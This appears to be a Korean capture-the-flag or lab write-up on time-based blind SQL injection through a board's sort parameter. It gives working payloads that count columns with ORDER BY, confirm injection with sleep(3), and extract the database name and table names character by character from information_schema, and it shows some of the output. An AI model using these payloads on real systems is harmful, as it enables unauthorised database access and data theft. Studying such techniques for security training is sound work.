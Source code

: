 게시판 요청에서는 `sort`라는 파라미터가 추가되어 있으며, 해당 값으로 `views`를 입력하자,
게시물들이 **조회수(Views) 기준으로 오름차순(ASC) 정렬**되는 현상을 확인할 수 있었다.

서버 내부에서 다음과 같은 쿼리가 실행되고 있을 가능성이 있다.

```sql
SELECT ? FROM ? WHERE username LIKE '%12%' ORDER BY views ASC;
```

이를 이용하여 `ORDER BY`에 숫자를 하나씩 증가시키며 삽입해봄으로써, 쿼리에 사용된 컬럼 개수를 확인해보겠다.

| 값  | 결과                   |
| -------------- | -------------------- |
| `10`           | 게시물 출력 됨        |
| `11`           | 게시물 출력 안 됨 |

- 정상 출력되는 최대 숫자가 10이므로, **컬럼 개수는 `10개`임을 확인**할 수 있다.

정렬 기준으로 사용되는 `sort` 파라미터에 SQL 구문을 삽입하여, **Time-Based Blind SQL Injection 가능성**을 테스트해보았다.

```sql
views, (select sleep(3))
```

위와 같은 값을 삽입하자, 페이지 응답이 약 **3초 이상 지연되는 현상**이 발생하였다.

이를 통해 서버가 해당 `SLEEP(3)` 구문을 실제로 실행하고 있음을 확인하였다.


Time-Based Blind SQL Injection이 성공적으로 확인되었으므로,
이를 기반으로 Python 스크립트를 작성하여 다음과 같은 순서로 자동화 공격을 수행하겠다.

1. 데이터베이스 이름 추출
2. 테이블 목록 추출 (`information_schema.tables`)
3. 특정 테이블의 컬럼 목록 추출 (`information_schema.columns`)
4. 플래그 값 추출

```sql
views, (select if(ascii(substring((select database()), ?, 1))=?, SLEEP(3), 0))
```

> **데이터베이스 결과:**
```csharp
[1] = 115 → s
[2] = 113 → sq
[3] = 108 → sql
[4] = 105 → sqli
[5] = 95 → sqli_
[6] = 56 → sqli_8
End
result: sqli_8
```

- 테이블 추출:

```sql
views, (select if(ascii(substring((select table_name from information_schema.tables where table_schema='sqli_8' limit ?,1), ?,1))=?, SLEEP(3), 0))
```
